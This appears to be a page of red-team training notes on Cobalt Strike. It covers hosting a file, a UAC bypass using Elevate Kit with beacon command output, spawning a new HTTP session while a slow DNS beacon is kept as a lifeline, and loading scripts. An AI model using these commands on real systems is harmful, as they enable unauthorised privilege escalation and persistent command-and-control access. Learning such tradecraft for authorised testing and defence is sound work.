 
## Host a File

---

`Site Management > Host File` and select document

![](https://files.cdn.thinkific.com/file_uploads/584845/images/087/4fa/7c4/host-file.png)


## UAC Bypass via [Elevate Kit](https://github.com/cobalt-strike/ElevateKit)

---

```
beacon> elevate uac-schtasks tcp-local
[*] Tasked Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444) in a high integrity context
[+] established link to child beacon: 10.10.123.102
```


## Beacon Passing

---

In this example, I have a DNS Beacon checking in from bfarmer every 1 minute.  Instead of operating through this Beacon, I want to leave it open as a lifeline on a slow check-in.  In which case, I can spawn a new HTTP session and work from there instead.

```
beacon> spawn x64 http
```


## Import Scripts

---

`Cobalt Strike > Script Manager` and load a `.cna` script.